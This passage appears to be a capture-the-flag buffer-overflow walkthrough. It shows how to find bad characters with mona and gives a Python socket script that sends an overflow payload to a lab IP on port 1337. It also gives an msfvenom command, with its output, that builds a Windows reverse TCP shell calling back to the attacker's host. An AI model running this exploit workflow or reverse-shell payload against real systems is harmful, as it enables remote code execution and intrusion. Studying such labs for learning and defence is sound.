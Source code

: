 If we have to find the bad char then it is an iterative process lets dig in

if we are going to use mona for comparison then we will have to create a working directory for it.
`!mona config -set workingfolder c:\mona\%p`

we will make a `bytearray.bin` file for bad char comparison in mona
![](/image/20240131083215.png)

Create a bad char for python :-

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

now modify the code 
```python
import sys,socket,time

payload = "A" * 1978 + "BCDE" 
badchar = "\x01\x02......[[**Redacted**]]......\xfd\xfe\xff"

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.62.72",1337))
    s.recv(1024)
    print ("sending to find offset")
    sendme = "OVERFLOW1 " + payload + badchar
    s.send(bytes(sendme, "latin-1"))
    print ("done")
except:
    print("unable to connect")
```

we will use `mona` to `compare` the `bad char which we have send` and which is present in `bytearray.bin`
![](/image/20240131083706.png)

be remember that only the first one is bad char not the second one 
	REPEAT THIS PROCESS TILL GET UNMODIFIED ![](/image/20240201032100.png)

#### Getting a shell

we have to create a payload for getting a shell for this we will use `msfvenom`

```sh
┌──(mike㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.123.200 LPORT=8888 EXITFUNC=thread -b "\x00[[badchar]]\xba" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor failed with Encoding failed due to a bad character (index=21, char=0x83)
Attempting to encode payload with 1 iterations of x86/countdown
x86/countdown failed with Encoding failed due to a bad character (index=112, char=0x23)
Attempting to encode payload with 1 iterations of x86/fnstenv_mov
x86/fnstenv_mov failed with Encoding failed due to a bad character (index=17, char=0x83)
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
x86/jmp_call_additive chosen with final size 353
Payload size: 353 bytes
```